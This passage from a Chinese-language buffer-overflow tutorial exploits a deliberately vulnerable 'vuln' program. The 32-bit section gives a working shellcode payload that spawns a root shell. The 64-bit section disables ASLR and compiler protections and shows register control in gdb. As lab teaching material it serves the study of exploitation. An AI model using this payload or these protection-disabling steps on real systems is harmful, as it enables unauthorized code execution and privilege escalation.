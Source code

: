
采用fixenv项目来统一环境变量,例如
```
./r.sh ./vuln
./r.sh gdb ./vuln
```
统一环境变量之后的buf地址
```
(gdb) p &buf
$1 = (char (*)[256]) 0xffffd510
```
最后的结果
```shell
 H localhost.localdomain  root  ~ | sploitfun  ./r.sh ./vuln `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" +"A"* 243 + "\x10\xd5\xff\xff"'`
Input:1?h//shh/bin𸀿P𸀿S𸀿
                           巴AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?
sh-4.2# who
root     pts/0        Nov  7 14:00 (61.172.240.228)
root     pts/2        Nov  7 14:09 (61.172.240.228)
```

----

### 64位版本

首先关于64-bit你需要了解的是

- 通用寄存器被扩展到64-bit,名字变为RAX, RBX, RCX, RDX, RSI,RDI.
- ESP,EBP,EIP被扩展到64-bit,名字变为RIP, RBP,RSP
- 增加了额外的寄存器,从R8到R15
- 指针变成了8-bytes的长度
- 在栈上push/pop为8字节宽
- 最大的有效地址位0x00007FFFFFFFFFFF.
- 参数的传递通过寄存器来完成

代码同上,编译命令

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
gcc -g -fno-stack-protector -z execstack -o vuln vuln.c
chmod +x vuln
```

gdb调试

```
r `python -c 'print "A"*300'`
```

结果

```
...
RSP: 0x7fffffffe3d8 ('A' <repeats 36 times>)
RIP: 0x4005d4 (<main+87>:	ret)
R8 : 0x4141414141414141 ('AAAAAAAA')
R9 : 0x7ffff7a5a27d (<_IO_vfprintf_internal+19661>:	cmp    BYTE PTR [rbp-0x510],0x0)
R10: 0x4141414141414141 ('AAAAAAAA')
R11: 0x246 
R12: 0x400490 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe4b0 --> 0x2 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
...
```
